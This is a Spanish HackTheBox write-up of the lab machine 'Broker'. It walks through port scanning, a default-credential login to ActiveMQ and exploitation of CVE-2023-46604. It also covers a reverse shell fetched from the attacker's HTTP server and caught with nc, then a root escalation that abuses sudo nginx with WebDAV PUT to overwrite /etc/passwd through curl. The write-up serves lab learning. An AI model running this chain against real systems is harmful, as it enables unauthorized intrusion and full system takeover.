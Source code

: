 ```yaml
---
title: Writeup de la máquina Broker
date: 2024-08-19
categories: [WRITEUPS, HackTheBox]
tags: [activemq]  # TAG names should always be lowercase
---
```


![picture](/assets/images/hackthebox/broker1.png)

En este ***Writeup*** se engloban las siguientes fases:
- **Reconocimiento**
- **Explotación**
- **Escalada de privilegios**

---

## **RECONOCIMIENTO**

Lo primero que realizaremos será un escaneo de puertos con **NMAP**, para comprobar los  puertos abiertos de la máquina, y los servicios que corren por los puertos.

```bash
nmap -p- --open 10.10.11.243 -Pn
```
![picture](/assets/images/hackthebox/broker2.png)

Realizando otro escaneo, para encontrar las versiones de los servicios, se han encontrado los siguientes.

```bash
nmap -p22,80,1883,5672,8161,35277,61613,61614,61616 -T5 -sVC 10.10.11.243
```

![picture](/assets/images/hackthebox/broker3.png)

- 22/tcp - SSH: Protocolo seguro para acceso remoto a la máquina mediante línea de comandos.
- 80/tcp - HTTP (nginx): Servidor web Nginx.
- 1883/tcp - MQTT: Protocolo de mensajería ligero usado principalmente en dispositivos IoT.
- 5672/tcp - AMQP: Protocolo de mensajería para transferencia fiable y segura de mensajes entre sistemas.
- 8161/tcp - HTTP (Jetty): Servidor web Jetty, posiblemente utilizado para interfaces administrativas o aplicaciones dedicadas.
- 35277/tcp - tcpwrapped: Indica que el puerto está protegido, dificultando la identificación precisa del servicio.
- 61613/tcp - STOMP (Apache ActiveMQ): Protocolo de mensajería de texto simple, usado con Apache ActiveMQ.
- 61614/tcp - HTTP (Jetty): Otro servicio HTTP Jetty, posiblemente relacionado con la administración de ActiveMQ.
- 61616/tcp - ApacheMQ (OpenWire): Protocolo nativo de Apache ActiveMQ para comunicación de mensajería entre aplicaciones

Viendo cada puerto nos centraremos más en los servidores Web, ya sea puerto **80**, **8161** y **61614**.

Si introducimos la dirección **IP** en el navegador para ver el servicio **HTTP**, vemos que nos aparece un panel de **login**.

![picture](/assets/images/hackthebox/broker4.png)

Probando credenciales comunes, con ***admin/admin*** he podido acceder. 

Es un panel de **ActiveMQ**, es un bróker de mensajería de código abierto de *Apache* escrito en *Java* junto con un cliente de servicio de mensajes Java completo. Proporciona diferentes tipos de servicios de alta disponibilidad, de intercambio de archivos, de intercambio de bases de datos, etc.

![picture](/assets/images/hackthebox/broker5.png)

Podemos comprobar la versión en el apartado de admin.

![picture](/assets/images/hackthebox/broker6.png)

---

## EXPLOTACIÓN

Buscando por internet he encontrado **CVE-2023-46604**, que es una vulnerabilidad crítica en **Apache ActiveMQ**, las versiones anteriores a **5.18.3**, **5.17.6**, **5.16.7** y **5.15.16** son vulnerables. Ésta vulnerabilidad crea en **ActiveMQ** un archivo **XML**, en el cual introduciremos una **Reverse Shell**.

Ataca directamente al puerto **61616**, el cual hemos comprobado antes que estaba abierto.

Nos vamos a clonar el siguiente repositorio de [Github](https://github.com/rootsecdev/CVE-2023-46604), que nos proporcionará una **Reverse Shell**.

```bash
git clone https://github.com/rootsecdev/CVE-2023-46604
```

Modificaremos el archivo "**poc-linux.xml**", añadiéndole nuestra **IP** y el **puerto** por el que queramos entablar la **Reverse Shell**.

![picture](/assets/images/hackthebox/broker7.png)

Seguimos los siguientes pasos por orden: creamos el servidor **HTTP**, iniciamos el **Listener** y ejecutamos el **script**.

![picture](/assets/images/hackthebox/broker8.png)

1. Ejecución del script

    ```go
    go run main.go -i 10.10.11.243 -p 61616 -u http://10.10.16.11:8888/poc-linux.xml2
    ```

2. Creción del servidor **HTTP** por el puerto por el cual vamos a hacer referencia al archivo poc-linux.xml.

    ```bash
    pyhton3 -m http.server 8888
    ```
3. Creción del **Listener** por el puerto por el que hemos indicado en el archivo **poc-linux.xml**, para que nos envíe la **Reverse Shell**.

    ```bash
    nc -nlvp 9001
    ```
Y una vez hemos ejecutado todo obtenemos acceso a la máquina.

![picture](/assets/images/hackthebox/broker9.png)

En la carpeta personal encontramos la flag del usuario.

![picture](/assets/images/hackthebox/broker10.png)

---

## ESCALADA DE PRIVILEGIOS

Listando los permisos de **sudo** del usuario, vemosque no necesita contraseña para ejecutar ***nginx***.

![picture](/assets/images/hackthebox/broker11.png)

Para escalar privilegios, crearemos un archivo de configuración de ***nginx***, por el cual podamos realizar peticiones para leer o introducir archivos en la máquina vulnerable siendo **root**.

- Archivo de configuración (nginx.conf)

```bash
user root;
events {
        worker_connections 1024;
}
http {
        server{
                listen 8888;
                root /;
                dav_methods PUT;
        }
}
```

Ejecutamos el siguiente comando.

```bash
sudo /usr/sbin/nginx -c /home/activemq/nginx.conf
```

A continuación, añadiré un usuario nuevo al **/etc/passwd** con la *shell* de **root**. (la contraseña cifrada es: password123)

(<mark>IMPORTANTE:</mark> funciona, y podremos leer la flag, aunque esto borrará todos los usuarios del sistema ya que sobrescribirá el usuario añadido sobre los demás, no sería funcional, se podría **leer** la flag directamente, o añadir una clave pública al archivo de **authorized_keys**, y entrar vía **SSH** con la **clave privada**)

```bash
curl -X PUT http://localhost:8888/etc/passwd -d "pwned:$1$xyz$QeYhJjMn0Cz1qxjZ5Pl4q1:0:0:root:/root:/bin/bash"
```

Y una vez migramos de usuario, podemos leer la **flag** de **root**.

![picture](/assets/images/hackthebox/broker12.png)

![picture](/assets/images/hackthebox/broker13.png)